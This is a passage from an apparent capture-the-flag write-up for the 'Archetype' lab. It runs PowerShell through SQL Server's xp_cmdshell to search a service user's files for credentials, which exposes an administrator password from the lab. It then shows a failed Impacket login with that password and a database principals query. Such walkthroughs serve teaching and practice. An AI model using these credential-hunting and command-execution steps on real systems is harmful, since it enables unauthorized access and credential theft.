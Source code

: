 ```powershell
Get-ChildItem -Path C:\Users\sql_svc -Recurse -Force -ErrorAction SilentlyContinue -File
```

We then pipe the list of all files and folders into the following command:

```powershell
Get-Content -ErrorAction SilentlyContinue
```

This will read the contents of each file that was piped into the command and print it to the console.
The last part of the command performs a case-insensitive search for the word ‘administrator’ in all the piped content:

```powershell
Select-String administrator -ErrorAction SilentlyContinue
```

Putting it all together and displaying the output, we see that one of the files that was read had a command that included the word ‘administrator’!

```powershell
SQL> xp_cmdshell "powershell "Get-ChildItem -Path C:\Users\sql_svc -Recurse -Force -ErrorAction SilentlyContinue | Get-Content -ErrorAction SilentlyContinue| Select-String administrator -ErrorAction SilentlyContinue""
 
output                                                                             
 
--------------------------------------------------------------------------------   
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!            
```

The command [maps the T drive to the backups share using the administrator account](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/gg651155(v=ws.11)). And we can see that the last argument includes the administrator password!
All that’s left is to either log in with the administrator credentials to SQL Server or find a way to run a command as the administrator and then read the contents of the flag. 
The attempt for the former failed:

```bash
mssqlclient.py ARCHETYPE/administrator:MEGACORP_4dm1n\!\!@$ip -windows-auth
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation
 
[*] Encryption required, switching to TLS
[-] ERROR(ARCHETYPE): Line 1: Login failed for user 'ARCHETYPE\administrator'.
```

This is because there’s no such user in the database (logged in with `sql_svc` user):

```sql
SQL> SELECT name FROM sys.database_principals

name
 
public
dbo
guest
INFORMATION_SCHEMA
sys
##MS_PolicyEventProcessingLogin##
##MS_AgentSigningCertificate##
db_owner
db_accessadmin
db_securityadmin 
db_ddladmin
db_backupoperator
db_datareader
db_datawriter
db_denydatareader
```